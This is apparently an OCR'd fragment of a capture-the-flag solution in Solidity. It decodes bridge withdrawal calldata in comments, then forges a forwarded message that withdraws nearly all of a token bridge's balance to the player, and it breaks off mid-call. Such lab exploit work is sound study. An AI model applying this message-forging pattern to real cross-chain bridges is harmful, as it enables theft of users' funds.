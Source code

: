   ```solidity
        receiver
        00000000000000000
        0000000328809bc89
        4f92807417d2dad6b
        7c998c1afdac60000
        
        amount (10ether)
        0000000000000000
        0000000000000000
        0000000000008ac7
        230489e800000000
        
        0000000000000000
        0000000000000000
        0000000000000000
        0000000000000000
        0000000000000000
        0000000000000000
        000000000000
        */

        /**
        2. 
        amount (10ether)
        0000000000000000
        0000000000000000
        0000000000000000
        8ac7230489e80000

        3. 
        (999000ether)
        0000000000000000
        00000000ea475d60
        c118d7058bef4bdd
        9c32ba51139a74e0
        
        4.
        amount (10ether)
        0000000000000000
        0000000000000000
        0000000000000000
        8ac7230489e80000        
        */
        
    bytes memory message = abi.encodeCall( L1Forwarder.forwardMessage,
        (
            0,
            player, 
            address(l1TokenBridge), 
            abi.encodeCall( 
                TokenBridge.executeTokenWithdrawal,
                (
                    player, 
                    token.balanceOf(address(l1TokenBridge)) - 30 ether
                )
            )
        )
    );

    l1Gateway.finalizeWithdrawal({
        nonce: 0,
        l2Sender: l2Handler,
        target: address(l1Forwarder),
  ```